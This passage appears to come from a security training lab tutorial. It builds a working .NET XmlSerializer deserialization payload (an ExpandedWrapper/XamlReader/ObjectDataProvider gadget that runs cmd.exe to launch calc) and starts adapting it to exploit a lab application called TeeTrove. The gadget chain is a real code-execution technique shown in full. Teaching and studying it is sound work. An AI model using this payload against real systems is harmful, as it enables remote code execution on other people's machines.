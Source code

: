 ```csharp
MemoryStream ms = new MemoryStream();
XmlSerializer xmlSerializer = new XmlSerializer(expWrap.GetType());
xmlSerializer.Serialize(ms, expWrap);
Console.WriteLine(Encoding.ASCII.GetString(ms.ToArray()));

```

Run the program one more time, and we should get a `serialized XML` output in addition to a calculator popping up on our screens.

```xml
<?xml version="1.0"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ObjectDataProvider MethodName="Start" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:sc="clr-namespace:System.Collections;assembly=mscorlib" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"&gt;&lt;ObjectDataProvider.ObjectInstance&gt;&lt;sd:Process&gt;&lt;sd:Process.StartInfo&gt;&lt;sd:ProcessStartInfo Arguments="/c calc" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="C:\Windows\System32\cmd.exe"&gt;&lt;/sd:ProcessStartInfo&gt;&lt;/sd:Process.StartInfo&gt;&lt;/sd:Process&gt;&lt;/ObjectDataProvider.ObjectInstance&gt;&lt;/ObjectDataProvider&gt;</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```

Finally, we have a payload for `XmlSerializer` which should work. We can comment everything out once again and add the following lines to the end of the program to verify that it works:

```csharp
string payload = "<?xml version=\"1.0\"?><ExpandedWrapperOfXamlReaderObjectDataProvider <SNIP>";
XmlSerializer xmlSerializer = new XmlSerializer(new ExpandedWrapper<XamlReader, ObjectDataProvider>().GetType());
xmlSerializer.Deserialize(new MemoryStream(Encoding.ASCII.GetBytes(payload)));

```

With any luck, the calculator should spawn and we should now have a verified payload that we can adapt to work with `TeeTrove`.

![image](https://academy.hackthebox.com/storage/modules/240/3/32.png)

## Exploiting TeeTrove

So let's adapt the payload to work with `TeeTrove`, spawning `notepad.exe` again instead of the calculator by changing the values of `Arguments` and `FileName`. If you remember from earlier in the section, we can control (need to control) the type string which is used when initializing `XmlSerializer`. The intended value is `TeeTrove.Models.Tee`, but we need to set it to the string equivalent of `new ExpandedWrapper<XamlReader, ObjectDataProvider>().GetType()` so that our payload will be deserialized correctly. We can comment out all previous code lines in our program and add the following line:

